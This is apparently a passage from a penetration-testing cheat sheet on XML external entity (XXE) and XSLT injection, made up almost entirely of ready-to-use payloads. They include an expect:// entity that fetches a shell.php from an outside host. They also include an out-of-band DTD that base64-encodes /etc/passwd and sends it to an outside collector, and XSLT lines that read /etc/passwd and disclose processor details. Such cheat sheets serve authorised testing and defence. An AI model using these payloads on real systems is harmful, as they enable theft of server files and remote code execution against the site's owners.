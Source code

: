 ```xml
<!DOCTYPE name_or_parent_element [
  <!ENTITY badstuff SYSTEM "expect://curl$IFS-O$IFS'https://pentest-experts.com/shell.php'">
]>
```

(requires the PHP expect module to be installed and enabled)

Spaces, `<`, `>`, `|`, `{`, `}`, ... break the XML syntax - avoid them!

**Out of band XXE:**

Useful in a total blind situation where we see no reflected data and no error messages.

We need to provide a DTD:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY badstuff SYSTEM 'https://pentest-experts.com/get_data.php?content=%file;'>">
```

Then we need a XXE injection code:

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "https://pentest-experts.com/xxe.dtd">
  %remote;
  %oob;
]>
```

... which we trigger by using `&badstuff;` in the XML document, which is defined in the DTD file.

**Tools:**

 - https://github.com/enjoiz/XXEinjector 

#### XSLT - Extensible stylesheet language transformation

**Information disclosure:**

```
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

**LFI:**

```
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```
